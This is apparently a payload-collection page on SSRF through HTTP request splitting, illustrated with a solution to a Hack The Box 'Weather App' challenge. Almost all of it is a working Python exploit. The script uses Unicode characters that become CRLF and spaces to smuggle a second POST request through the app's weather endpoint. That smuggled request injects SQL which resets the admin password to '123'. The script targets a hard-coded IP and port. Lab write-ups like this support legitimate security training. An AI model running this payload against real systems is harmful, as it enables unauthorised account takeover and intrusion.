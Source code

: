 ```yaml
---
title: SSRF via Request Splitting
permalink: ssrf-via-request-splitting.html
folder: Payloads
---
```


Need to read:
- https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/
- https://blog.d3s34.me/weather-app

Example: HTB - Weather App

Payload

```python
import requests

CRLF = "\u010D\u010A"
SPACE = "\u0120"

SQLi = f"username=admin&password=1') on conflict(username) do update set password='123';-- -"\
    .replace(" ", SPACE)\
    .replace("'", "%27")

payload =   f"{SPACE}HTTP/1.1{CRLF}"\
            f"Host:{SPACE}127.0.0.1{CRLF}"\
            f"{CRLF}"\
            \
            f"POST{SPACE}/register{SPACE}HTTP/1.1{CRLF}"\
            f"Host:{SPACE}127.0.0.1{CRLF}"\
            f"Content-Length:{SPACE}{len(SQLi)}{CRLF}"\
            f"Content-Type:{SPACE}application/x-www-form-urlencoded{CRLF}"\
            f"{CRLF}"\
            f"{SQLi}{CRLF}"\
            f"{CRLF}" \
            \
            f"GET{SPACE}/"

url = 'http://68.183.36.105:31623/api/weather'
data = {"endpoint":"127.0.0.1",
        "city":"Hanoi" + payload,
        "country":"VN"}

x = requests.post(url, data = data)

print(x.text)
```
